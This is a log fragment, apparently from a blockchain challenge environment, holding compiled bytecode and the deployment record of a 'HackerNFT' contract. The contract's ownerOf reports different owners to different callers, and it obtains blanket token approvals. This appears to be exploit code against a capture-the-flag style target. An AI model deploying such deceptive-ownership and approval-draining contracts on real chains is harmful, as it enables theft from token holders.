ab9565b82525050565b6000819050919050565b6000819050919050565b6000610e76610e71610e6c84610e47565b610e51565b610af7565b9050919050565b610e8681610e5b565b82525050565b6000819050919050565b6000610eb1610eac610ea784610e8c565b610e51565b610af7565b9050919050565b610ec181610e96565b82525050565b6000606082019050610edc6000830186610e38565b610ee96020830185610e7d565b610ef66040830184610eb8565b949350505050565b6000602082019050610f136000830184610e7d565b92915050565b600082825260208201905092915050565b7f492c207468652069737375657200000000000000000000000000000000000000600082015250565b6000610f60600d83610f19565b9150610f6b82610f2a565b602082019050919050565b7f6f666665722061207370656369616c20646973636f756e7420666f7200000000600082015250565b6000610fac601c83610f19565b9150610fb782610f76565b602082019050919050565b7f746f206275790000000000000000000000000000000000000000000000000000600082015250565b6000610ff8600683610f19565b915061100382610fc2565b602082019050919050565b61101781610ab9565b82525050565b61102681610af7565b82525050565b606082016000820151611042600085018261100e565b506020820151611055602085018261101d565b506040820151611068604085018261101d565b50505050565b7f6174000000000000000000000000000000000000000000000000000000000000600082015250565b60006110a4600283610f19565b91506110af8261106e565b602082019050919050565b6110c381610af7565b82525050565b7f6265636175736500000000000000000000000000000000000000000000000000600082015250565b60006110ff600783610f19565b915061110a826110c9565b602082019050919050565b600081519050919050565b600082825260208201905092915050565b60005b8381101561114f578082015181840152602081019050611134565b60008484015250505050565b600061116682611115565b6111708185611120565b9350611180818560208601611131565b61118981610b37565b840191505092915050565b60006101808201905081810360008301526111ae81610f53565b90506111bd6020830188610e38565b81810360408301526111ce81610f9f565b90506111dd6060830187610e38565b81810360808301526111ee81610feb565b90506111fd60a083018661102c565b81810361010083015261120f81611097565b905061121f6101208301856110ba565b818103610140830152611231816110f2565b9050818103610160830152611246818461115b565b90509695505050505050565b6000819050919050565b600061127761127261126d84611252565b610e51565b610af7565b9050919050565b6112878161125c565b82525050565b60006020820190506112a2600083018461127e565b92915050565b60006040820190506112bd6000830185610e38565b6112ca6020830184610e7d565b9392505050565b60006060820190506112e66000830186610e38565b6112f36020830185610e7d565b6113006040830184610e7d565b949350505050565b60008151905061131781610b01565b92915050565b60006020828403121561133357611332610a8f565b5b600061134184828501611308565b91505092915050565b6000819050919050565b600061136f61136a6113658461134a565b610e51565b610af7565b9050919050565b61137f81611354565b82525050565b600060608201905061139a6000830186610e38565b6113a76020830185611376565b6113b46040830184610e7d565b949350505050565b600082825260208201905092915050565b60006113d882611115565b6113e281856113bc565b93506113f2818560208601611131565b6113fb81610b37565b840191505092915050565b600060a08301600083015161141e600086018261101d565b506020830151611431602086018261101d565b506040830151611444604086018261100e565b506060830151611457606086018261100e565b506080830151848203608086015261146f82826113cd565b9150508091505092915050565b61148581610d80565b82525050565b600060029050919050565b600081905092915050565b6000819050919050565b6114b481610d4c565b82525050565b60006114c683836114ab565b60208301905092915050565b6000602082019050919050565b6114e88161148b565b6114f28184611496565b92506114fd826114a1565b8060005b8381101561152e57815161151587826114ba565b9650611520836114d2565b925050600181019050611501565b505050505050565b60608201600082015161154c600085018261147c565b50602082015161155f60208501826114df565b50505050565b600060808301600083015184820360008601526115828282611406565b91505060208301516115976020860182611536565b508091505092915050565b600060208201905081810360008301526115bc8184611565565b90509291505056fea2646970667358221220a7d65bb6c00aa70f0e2dc3f4bb9e8ae881b2558cfcb91c69c6225187e060130964736f6c6343000810003360806040523480156200001157600080fd5b50604051620034633803806200346383398181016040528101906200003791906200052d565b6040518060400160405280600981526020017f4861636b65724e465400000000000000000000000000000000000000000000008152506040518060400160405280600381526020017f4e465400000000000000000000000000000000000000000000000000000000008152508160009081620000b4919062000803565b508060019081620000c6919062000803565b505050620000e9620000dd6200028460201b60201c565b6200028c60201b60201c565b82600760006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555081600860006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555033600960006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555080600a60006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055506200022330600960009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016200035260201b60201c565b6200027b600760009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600960009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016200035260201b60201c565b505050620009a7565b600033905090565b6000600660009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16905081600660006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055508173ffffffffffffffffffffffffffffffffffffffff168173ffffffffffffffffffffffffffffffffffffffff167f8be0079c531659141344cd1fd0a4f28419497f9722a3daafe3b4186f6b6457e060405160405180910390a35050565b8173ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff1603620003c3576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401620003ba906200094b565b60405180910390fd5b80600560008573ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060006101000a81548160ff0219169083151502179055508173ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff167f17307eab39ab6107e8899845ad3d59bd9653f200f220920489ca2b5937696c3183604051620004b691906200098a565b60405180910390a3505050565b600080fd5b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b6000620004f582620004c8565b9050919050565b6200050781620004e8565b81146200051357600080fd5b50565b6000815190506200052781620004fc565b92915050565b600080600060608486031215620005495762000548620004c3565b5b6000620005598682870162000516565b93505060206200056c8682870162000516565b92505060406200057f8682870162000516565b9150509250925092565b600081519050919050565b7f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b7f4e487b7100000000000000000000000000000000000000000000000000000000600052602260045260246000fd5b600060028204905060018216806200060b57607f821691505b602082108103620006215762000620620005c3565b5b50919050565b60008190508160005260206000209050919050565b60006020601f8301049050919050565b600082821b905092915050565b6000600883026200068b7fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff826200064c565b6200069786836200064c565b95508019841693508086168417925050509392505050565b6000819050919050565b6000819050919050565b6000620006e4620006de620006d884620006af565b620006b9565b620006af565b9050919050565b6000819050919050565b6200070083620006c3565b620007186200070f82620006eb565b84845462000659565b825550505050565b600090565b6200072f62000720565b6200073c818484620006f5565b505050565b5b8181101562000764576200075860008262000725565b60018101905062000742565b5050565b601f821115620007b3576200077d8162000627565b62000788846200063c565b8101602085101562000798578190505b620007b0620007a7856200063c565b83018262000741565b50505b505050565b600082821c905092915050565b6000620007d860001984600802620007b8565b1980831691505092915050565b6000620007f38383620007c5565b9150826002028217905092915050565b6200080e8262000589565b67ffffffffffffffff8111156200082a576200082962000594565b5b620008368254620005f2565b6200084382828562000768565b600060209050601f8311600181146200087b576000841562000866578287015190505b620008728582620007e5565b865550620008e2565b601f1984166200088b8662000627565b60005b82811015620008b5578489015182556001820191506020850194506020810190506200088e565b86831015620008d55784890151620008d1601f891682620007c5565b8355505b6001600288020188555050505b505050505050565b600082825260208201905092915050565b7f4552433732313a20617070726f766520746f2063616c6c657200000000000000600082015250565b600062000933601983620008ea565b91506200094082620008fb565b602082019050919050565b60006020820190508181036000830152620009668162000924565b9050919050565b60008115159050919050565b62000984816200096d565b82525050565b6000602082019050620009a1600083018462000979565b92915050565b612aac80620009b76000396000f3fe608060405234801561001057600080fd5b506004361061010b5760003560e01c806370a08231116100a2578063a22cb46511610071578063a22cb465146102a4578063b88d4fde146102c0578063c87b56dd146102dc578063e985e9c51461030c578063f2fde38b1461033c5761010b565b806370a082311461022e578063715018a61461025e5780638da5cb5b1461026857806395d89b41146102865761010b565b806323b872dd116100de57806323b872dd146101aa57806340c10f19146101c657806342842e0e146101e25780636352211e146101fe5761010b565b806301ffc9a71461011057806306fdde0314610140578063081812fc1461015e578063095ea7b31461018e575b600080fd5b61012a60048036038101906101259190611c13565b610358565b6040516101379190611c5b565b60405180910390f35b61014861043a565b6040516101559190611d06565b60405180910390f35b61017860048036038101906101739190611d5e565b6104cc565b6040516101859190611dcc565b60405180910390f35b6101a860048036038101906101a39190611e13565b610512565b005b6101c460048036038101906101bf9190611e53565b610629565b005b6101e060048036038101906101db9190611e13565b610689565b005b6101fc60048036038101906101f79190611e53565b61069f565b005b61021860048036038101906102139190611d5e565b6106bf565b6040516102259190611dcc565b60405180910390f35b61024860048036038101906102439190611ea6565b6107ea565b6040516102559190611ee2565b60405180910390f35b6102666108a1565b005b6102706108b5565b60405161027d9190611dcc565b60405180910390f35b61028e6108df565b60405161029b9190611d06565b60405180910390f35b6102be60048036038101906102b99190611f29565b610971565b005b6102da60048036038101906102d5919061209e565b610987565b005b6102f660048036038101906102f19190611d5e565b6109e9565b6040516103039190611d06565b60405180910390f35b61032660048036038101906103219190612121565b610a51565b6040516103339190611c5b565b60405180910390f35b61035660048036038101906103519190611ea6565b610ae5565b005b60007f80ac58cd000000000000000000000000000000000000000000000000000000007bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916827bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916148061042357507f5b5e139f000000000000000000000000000000000000000000000000000000007bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916827bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916145b80610433575061043282610b68565b5b9050919050565b60606000805461044990612190565b80601f016020809104026020016040519081016040528092919081815260200182805461047590612190565b80156104c25780601f10610497576101008083540402835291602001916104c2565b820191906000526020600020905b8154815290600101906020018083116104a557829003601f168201915b5050505050905090565b60006104d782610bd2565b6004600083815260200190815260200160002060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff169050919050565b600061051d82610c1d565b90508073ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff160361058d576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040161058490612233565b60405180910390fd5b8073ffffffffffffffffffffffffffffffffffffffff166105ac610ca3565b73ffffffffffffffffffffffffffffffffffffffff1614806105db57506105da816105d5610ca3565b610a51565b5b61061a576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610611906122c5565b60405180910390fd5b6106248383610cab565b505050565b61063a610634610ca3565b82610d64565b610679576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040161067090612357565b60405180910390fd5b610684838383610df9565b505050565b6106916110f2565b61069b8282611170565b5050565b6106ba83838360405180602001604052806000815250610987565b505050565b6000600860009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff163373ffffffffffffffffffffffffffffffffffffffff160361074057600a60009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1690506107e5565b600760009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff163373ffffffffffffffffffffffffffffffffffffffff16036107bf57600760009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1690506107e5565b600960009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1690505b919050565b60008073ffffffffffffffffffffffffffffffffffffffff168273ffffffffffffffffffffffffffffffffffffffff160361085a576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610851906123e9565b60405180910390fd5b600360008373ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001908152602001600020549050919050565b6108a96110f2565b6108b3600061138d565b565b6000600660009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16905090565b6060600180546108ee90612190565b80601f016020809104026020016040519081016040528092919081815260200182805461091a90612190565b80156109675780601f1061093c57610100808354040283529160200191610967565b820191906000526020600020905b81548152906001019060200180831161094a57829003601f168201915b5050505050905090565b61098361097c610ca3565b8383611453565b5050565b610998610992610ca3565b83610d64565b6109d7576040517f08c379a00000000000000000000000000000000000000000000000000000000081526004016109ce90612357565b60405180910390fd5b6109e3848484846115bf565b50505050565b60606109f482610bd2565b60006109fe61161b565b90506000815111610a1e5760405180602001604052806000815250610a49565b80610a2884611632565b604051602001610a39929190612445565b6040516020818303038152906040525b915050919050565b6000600560008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008373ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060009054906101000a900460ff16905092915050565b610aed6110f2565b600073ffffffffffffffffffffffffffffffffffffffff168173ffffffffffffffffffffffffffffffffffffffff1603610b5c576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610b53906124db565b60405180910390fd5b610b658161138d565b50565b60007f01ffc9a7000000000000000000000000000000000000000000000000000000007bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916827bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916149050919050565b610bdb81611700565b610c1a576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610c1190612547565b60405180910390fd5b50565b600080610c2983611741565b9050600073ffffffffffffffffffffffffffffffffffffffff168173ffffffffffffffffffffffffffffffffffffffff1603610c9a576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610c9190612547565b60405180910390fd5b80915050919050565b600033905090565b816004600083815260200190815260200160002060006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550808273ffffffffffffffffffffffffffffffffffffffff16610d1e83610c1d565b73ffffffffffffffffffffffffffffffffffffffff167f8c5be1e5ebec7d5bd14f71427d1e84f3dd0314c0f7b2291e5b200ac8c7c3b92560405160405180910390a45050565b600080610d7083610c1d565b90508073ffffffffffffffffffffffffffffffffffffffff168473ffffffffffffffffffffffffffffffffffffffff161480610db25750610db18185610a51565b5b80610df057508373ffffffffffffffffffffffffffffffffffffffff16610dd8846104cc565b73ffffffffffffffffffffffffffffffffffffffff16145b91505092915050565b8273ffffffffffffffffffffffffffffffffffffffff16610e1982610c1d565b73ffffffffffffffffffffffffffffffffffffffff1614610e6f576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610e66906125d9565b60405180910390fd5b600073ffffffffffffffffffffffffffffffffffffffff168273ffffffffffffffffffffffffffffffffffffffff1603610ede576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610ed59061266b565b60405180910390fd5b610eeb838383600161177e565b8273ffffffffffffffffffffffffffffffffffffffff16610f0b82610c1d565b73ffffffffffffffffffffffffffffffffffffffff1614610f61576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610f58906125d9565b60405180910390fd5b6004600082815260200190815260200160002060006101000a81549073ffffffffffffffffffffffffffffffffffffffff02191690556001600360008573ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001908152602001600020600082825403925050819055506001600360008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008282540192505081905550816002600083815260200190815260200160002060006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550808273ffffffffffffffffffffffffffffffffffffffff168473ffffffffffffffffffffffffffffffffffffffff167fddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef60405160405180910390a46110ed83838360016118a4565b505050565b6110fa610ca3565b73ffffffffffffffffffffffffffffffffffffffff166111186108b5565b73ffffffffffffffffffffffffffffffffffffffff161461116e576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401611165906126d7565b60405180910390fd5b565b600073ffffffffffffffffffffffffffffffffffffffff168273ffffffffffffffffffffffffffffffffffffffff16036111df576040517f08c379a00000000000000000000000000000000000000000000000000000000081526004016111d690612743565b60405180910390fd5b6111e881611700565b15611228576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040161121f906127af565b60405180910390fd5b61123660008383600161177e565b61123f81611700565b1561127f576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401611276906127af565b60405180910390fd5b6001600360008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008282540192505081905550816002600083815260200190815260200160002060006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550808273ffffffffffffffffffffffffffffffffffffffff16600073ffffffffffffffffffffffffffffffffffffffff167fddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef60405160405180910390a46113896000838360016118a4565b5050565b6000600660009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16905081600660006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055508173ffffffffffffffffffffffffffffffffffffffff168173ffffffffffffffffffffffffffffffffffffffff167f8be0079c531659141344cd1fd0a4f28419497f9722a3daafe3b4186f6b6457e060405160405180910390a35050565b8173ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff16036114c1576040517f08c379a00000000000000000000000000000000000000000000000000000000081526004016114b89061281b565b60405180910390fd5b80600560008573ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060006101000a81548160ff0219169083151502179055508173ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff167f17307eab39ab6107e8899845ad3d59bd9653f200f220920489ca2b5937696c31836040516115b29190611c5b565b60405180910390a3505050565b6115ca848484610df9565b6115d6848484846118aa565b611615576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040161160c906128ad565b60405180910390fd5b50505050565b606060405180602001604052806000815250905090565b60606000600161164184611a31565b01905060008167ffffffffffffffff8111156116605761165f611f73565b5b6040519080825280601f01601f1916602001820160405280156116925781602001600182028036833780820191505090505b509050600082602001820190505b6001156116f5578080600190039150507f3031323334353637383961626364656600000000000000000000000000000000600a86061a8153600a85816116e9576116e86128cd565b5b049450600085036116a0575b819350505050919050565b60008073ffffffffffffffffffffffffffffffffffffffff1661172283611741565b73ffffffffffffffffffffffffffffffffffffffff1614159050919050565b60006002600083815260200190815260200160002060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff169050919050565b600181111561189e57600073ffffffffffffffffffffffffffffffffffffffff168473ffffffffffffffffffffffffffffffffffffffff16146118125780600360008673ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001908152602001600020600082825461180a919061292b565b925050819055505b600073ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff161461189d5780600360008573ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1681526020019081526020016000206000828254611895919061295f565b925050819055505b5b50505050565b50505050565b60006118cb8473ffffffffffffffffffffffffffffffffffffffff16611b84565b15611a24578373ffffffffffffffffffffffffffffffffffffffff1663150b7a026118f4610ca3565b8786866040518563ffffffff1660e01b815260040161191694939291906129e8565b6020604051808303816000875af192505050801561195257506040513d601f19601f8201168201806040525081019061194f9190612a49565b60015b6119d4573d8060008114611982576040519150601f19603f3d011682016040523d82523d6000602084013e611987565b606091505b5060008151036119cc576040517f08c379a00000000000000000000000000000000000000000000000000000000081526004016119c3906128ad565b60405180910390fd5b805181602001fd5b63150b7a0260e01b7bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916817bffffffffffffffffffffffffffffffffffffffffffffffffffffffff191614915050611a29565b600190505b949350505050565b600080600090507a184f03e93ff9f4daa797ed6e38ed64bf6a1f0100000000000000008310611a8f577a184f03e93ff9f4daa797ed6e38ed64bf6a1f0100000000000000008381611a8557611a846128cd565b5b0492506040810190505b6d04ee2d6d415b85acef81000000008310611acc576d04ee2d6d415b85acef81000000008381611ac257611ac16128cd565b5b0492506020810190505b662386f26fc100008310611afb57662386f26fc100008381611af157611af06128cd565b5b0492506010810190505b6305f5e1008310611b24576305f5e1008381611b1a57611b196128cd565b5b0492506008810190505b6127108310611b49576127108381611b3f57611b3e6128cd565b5b0492506004810190505b60648310611b6c5760648381611b6257611b616128cd565b5b0492506002810190505b600a8310611b7b576001810190505b80915050919050565b6000808273ffffffffffffffffffffffffffffffffffffffff163b119050919050565b6000604051905090565b600080fd5b600080fd5b60007fffffffff0000000000000000000000000000000000000000000000000000000082169050919050565b611bf081611bbb565b8114611bfb57600080fd5b50565b600081359050611c0d81611be7565b92915050565b600060208284031215611c2957611c28611bb1565b5b6000611c3784828501611bfe565b91505092915050565b60008115159050919050565b611c5581611c40565b82525050565b6000602082019050611c706000830184611c4c565b92915050565b600081519050919050565b600082825260208201905092915050565b60005b83811015611cb0578082015181840152602081019050611c95565b60008484015250505050565b6000601f19601f8301169050919050565b6000611cd882611c76565b611ce28185611c81565b9350611cf2818560208601611c92565b611cfb81611cbc565b840191505092915050565b60006020820190508181036000830152611d208184611ccd565b905092915050565b6000819050919050565b611d3b81611d28565b8114611d4657600080fd5b50565b600081359050611d5881611d32565b92915050565b600060208284031215611d7457611d73611bb1565b5b6000611d8284828501611d49565b91505092915050565b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b6000611db682611d8b565b9050919050565b611dc681611dab565b82525050565b6000602082019050611de16000830184611dbd565b92915050565b611df081611dab565b8114611dfb57600080fd5b50565b600081359050611e0d81611de7565b92915050565b60008060408385031215611e2a57611e29611bb1565b5b6000611e3885828601611dfe565b9250506020611e4985828601611d49565b9150509250929050565b600080600060608486031215611e6c57611e6b611bb1565b5b6000611e7a86828701611dfe565b9350506020611e8b86828701611dfe565b9250506040611e9c86828701611d49565b9150509250925092565b600060208284031215611ebc57611ebb611bb1565b5b6000611eca84828501611dfe565b91505092915050565b611edc81611d28565b82525050565b6000602082019050611ef76000830184611ed3565b92915050565b611f0681611c40565b8114611f1157600080fd5b50565b600081359050611f2381611efd565b92915050565b60008060408385031215611f4057611f3f611bb1565b5b6000611f4e85828601611dfe565b9250506020611f5f85828601611f14565b9150509250929050565b600080fd5b600080fd5b7f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b611fab82611cbc565b810181811067ffffffffffffffff82111715611fca57611fc9611f73565b5b80604052505050565b6000611fdd611ba7565b9050611fe98282611fa2565b919050565b600067ffffffffffffffff82111561200957612008611f73565b5b61201282611cbc565b9050602081019050919050565b82818337600083830152505050565b600061204161203c84611fee565b611fd3565b90508281526020810184848401111561205d5761205c611f6e565b5b61206884828561201f565b509392505050565b600082601f83011261208557612084611f69565b5b813561209584826020860161202e565b91505092915050565b600080600080608085870312156120b8576120b7611bb1565b5b60006120c687828801611dfe565b94505060206120d787828801611dfe565b93505060406120e887828801611d49565b925050606085013567ffffffffffffffff81111561210957612108611bb6565b5b61211587828801612070565b91505092959194509250565b6000806040838503121561213857612137611bb1565b5b600061214685828601611dfe565b925050602061215785828601611dfe565b9150509250929050565b7f4e487b7100000000000000000000000000000000000000000000000000000000600052602260045260246000fd5b600060028204905060018216806121a857607f821691505b6020821081036121bb576121ba612161565b5b50919050565b7f4552433732313a20617070726f76616c20746f2063757272656e74206f776e6560008201527f7200000000000000000000000000000000000000000000000000000000000000602082015250565b600061221d602183611c81565b9150612228826121c1565b604082019050919050565b6000602082019050818103600083015261224c81612210565b9050919050565b7f4552433732313a20617070726f76652063616c6c6572206973206e6f7420746f60008201527f6b656e206f776e6572206f7220617070726f76656420666f7220616c6c000000602082015250565b60006122af603d83611c81565b91506122ba82612253565b604082019050919050565b600060208201905081810360008301526122de816122a2565b9050919050565b7f4552433732313a2063616c6c6572206973206e6f7420746f6b656e206f776e6560008201527f72206f7220617070726f76656400000000000000000000000000000000000000602082015250565b6000612341602d83611c81565b915061234c826122e5565b604082019050919050565b6000602082019050818103600083015261237081612334565b9050919050565b7f4552433732313a2061646472657373207a65726f206973206e6f74206120766160008201527f6c6964206f776e65720000000000000000000000000000000000000000000000602082015250565b60006123d3602983611c81565b91506123de82612377565b604082019050919050565b60006020820190508181036000830152612402816123c6565b9050919050565b600081905092915050565b600061241f82611c76565b6124298185612409565b9350612439818560208601611c92565b80840191505092915050565b60006124518285612414565b915061245d8284612414565b91508190509392505050565b7f4f776e61626c653a206e6577206f776e657220697320746865207a65726f206160008201527f6464726573730000000000000000000000000000000000000000000000000000602082015250565b60006124c5602683611c81565b91506124d082612469565b604082019050919050565b600060208201905081810360008301526124f4816124b8565b9050919050565b7f4552433732313a20696e76616c696420746f6b656e2049440000000000000000600082015250565b6000612531601883611c81565b915061253c826124fb565b602082019050919050565b6000602082019050818103600083015261256081612524565b9050919050565b7f4552433732313a207472616e736665722066726f6d20696e636f72726563742060008201527f6f776e6572000000000000000000000000000000000000000000000000000000602082015250565b60006125c3602583611c81565b91506125ce82612567565b604082019050919050565b600060208201905081810360008301526125f2816125b6565b9050919050565b7f4552433732313a207472616e7366657220746f20746865207a65726f2061646460008201527f7265737300000000000000000000000000000000000000000000000000000000602082015250565b6000612655602483611c81565b9150612660826125f9565b604082019050919050565b6000602082019050818103600083015261268481612648565b9050919050565b7f4f776e61626c653a2063616c6c6572206973206e6f7420746865206f776e6572600082015250565b60006126c1602083611c81565b91506126cc8261268b565b602082019050919050565b600060208201905081810360008301526126f0816126b4565b9050919050565b7f4552433732313a206d696e7420746f20746865207a65726f2061646472657373600082015250565b600061272d602083611c81565b9150612738826126f7565b602082019050919050565b6000602082019050818103600083015261275c81612720565b9050919050565b7f4552433732313a20746f6b656e20616c7265616479206d696e74656400000000600082015250565b6000612799601c83611c81565b91506127a482612763565b602082019050919050565b600060208201905081810360008301526127c88161278c565b9050919050565b7f4552433732313a20617070726f766520746f2063616c6c657200000000000000600082015250565b6000612805601983611c81565b9150612810826127cf565b602082019050919050565b60006020820190508181036000830152612834816127f8565b9050919050565b7f4552433732313a207472616e7366657220746f206e6f6e20455243373231526560008201527f63656976657220696d706c656d656e7465720000000000000000000000000000602082015250565b6000612897603283611c81565b91506128a28261283b565b604082019050919050565b600060208201905081810360008301526128c68161288a565b9050919050565b7f4e487b7100000000000000000000000000000000000000000000000000000000600052601260045260246000fd5b7f4e487b7100000000000000000000000000000000000000000000000000000000600052601160045260246000fd5b600061293682611d28565b915061294183611d28565b9250828203905081811115612959576129586128fc565b5b92915050565b600061296a82611d28565b915061297583611d28565b925082820190508082111561298d5761298c6128fc565b5b92915050565b600081519050919050565b600082825260208201905092915050565b60006129ba82612993565b6129c4818561299e565b93506129d4818560208601611c92565b6129dd81611cbc565b840191505092915050565b60006080820190506129fd6000830187611dbd565b612a0a6020830186611dbd565b612a176040830185611ed3565b8181036060830152612a2981846129af565b905095945050505050565b600081519050612a4381611be7565b92915050565b600060208284031215612a5f57612a5e611bb1565b5b6000612a6d84828501612a34565b9150509291505056fea2646970667358221220fdbeed55f866252f7841c4221ee6ecd1be8f2bb2241a6226cc4156eea10c55fa64736f6c63430008100033000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6"
}
2022-11-06 10:45:25.328 | SUCCESS  | Poseidon.Blockchain:__init__:484 - 
[Contract][Instantiate]Successfully instantiated contract [0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb].
2022-11-06 10:45:25.332 | SUCCESS  | Poseidon.Blockchain:DeployContract:428 -
[Account][DeployContract][Success]
[TransactionHash]0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6
[BlockNumber]106737
[ContractAddress]0xfAe1d8a8942d8ba4F26a4EE1732EF094b66B97Eb
[Value]0 [GasUsed]4260667
[Logs][AttributeDict({'address': '0xf8D8fe5bfd88174b29869563aA53d7698A7A36d5', 'topics': [HexBytes('0x17307eab39ab6107e8899845ad3d59bd9653f200f220920489ca2b5937696c31'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6')], 'data': '0x0000000000000000000000000000000000000000000000000000000000000001', 'blockNumber': 106737, 'transactionHash': HexBytes('0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6'), 'transactionIndex': 0, 'blockHash': HexBytes('0x67a42027cdaf49dab8367765e3db2e1e2f781914d8bcef4fdaba78bea69a1aa8'), 'logIndex': 0, 'removed': False}), AttributeDict({'address': '0x4C9229666BcBb8FEB354acBaf77cD408e4eD5D50', 'topics': [HexBytes('0x8c5be1e5ebec7d5bd14f71427d1e84f3dd0314c0f7b2291e5b200ac8c7c3b925'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb'), HexBytes('0x000000000000000000000000c1401cc3fa69c089c7f756c8e31627364e5dfab6')], 'data': '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff', 'blockNumber': 106737, 'transactionHash': HexBytes('0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6'), 'transactionIndex': 0, 'blockHash': HexBytes('0x67a42027cdaf49dab8367765e3db2e1e2f781914d8bcef4fdaba78bea69a1aa8'), 'logIndex': 1, 'removed': False}), AttributeDict({'address': '0xfF25FACBE77eac4eD3603188CccB9431f1A26448', 'topics': [HexBytes('0x8be0079c531659141344cd1fd0a4f28419497f9722a3daafe3b4186f6b6457e0'), HexBytes('0x0000000000000000000000000000000000000000000000000000000000000000'), HexBytes('0x000000000000000000000000fae1d8a8942d8ba4f26a4ee1732ef094b66b97eb')], 'data': '0x', 'blockNumber': 106737, 'transactionHash': HexBytes('0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6'), 'transactionIndex': 0, 'blockHash': 